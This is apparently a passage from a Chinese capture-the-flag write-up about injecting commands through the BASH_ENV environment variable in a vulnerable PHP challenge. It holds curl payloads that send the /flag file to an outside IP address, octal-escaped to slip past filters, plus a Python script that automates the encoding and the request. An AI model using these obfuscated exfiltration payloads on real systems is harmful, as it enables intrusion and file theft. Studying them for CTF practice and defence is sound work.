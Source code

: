 ![image-20220404105505362](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-45fbb2d1d95d7847a0550e0ad70348fd3cf732f6.png)

payload：

```shell
curl 114.215.25.168:2333 -F file=@/flag

分开或者一起都是可以的，用$或者`也都可以：
http://317d9776-b113-4d81-b3ea-f1c553170336.node4.buuoj.cn:81/?env[BASH_ENV]=$($'\143\165\162\154' $'\61\61\64\56\62\61\65\56\62\65\56\61\66\70\72\62\63\63\63'%20$'\55\106' $'\146\151\154\145\75\100\57\146\154\141\147')

http://317d9776-b113-4d81-b3ea-f1c553170336.node4.buuoj.cn:81/?env[BASH_ENV]=`$'\143'$'\165'$'\162'$'\154' 114.215.25.168:2333 -$'\106' $'\146'$'\151'$'\154'$'\145'=@/$'\146'$'\154'$'\141'$'\147'`
```

![image-20220404095022100](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f69051c4b6b60f4bd8170b1bbf055be02ecbe457.png)

```python
import string
import requests

cmd = 'cat /flag | curl -d @- 114.215.25.168:2333'

o = ''

for c in cmd:
    if c in string.ascii_letters:
        o += f"$'\\{oct(ord(c))[2:]}'"
    else:
        o += c

r = requests.get(f'http://317d9776-b113-4d81-b3ea-f1c553170336.node4.buuoj.cn:81/?env[BASH_ENV]=`{o}`')
print(r.text)
```

![image-20220404084650253](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c4d7aa622c1f512bd57b17b307a70d64e0d20c1b.png)

当然还有其他可以利用的环境变量

`https://blog.p6.is/Abusing-Environment-Variables/`

`https://www.elttam.com/blog/env/`

源码：

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors','on') ;
highlight_file(__FILE__);
if(isset($_GET['p'])){
    foreach($_GET['p'] as $p) {
putenv($p);
    }
}
?>
<?system('env')?>
<?php
if (file_exists($_GET['file'])) {
    var_dump(escapeshellarg($_GET['file']). "2>&1");
    system(escapeshellarg($_GET['file']). "2>&1");
}
```
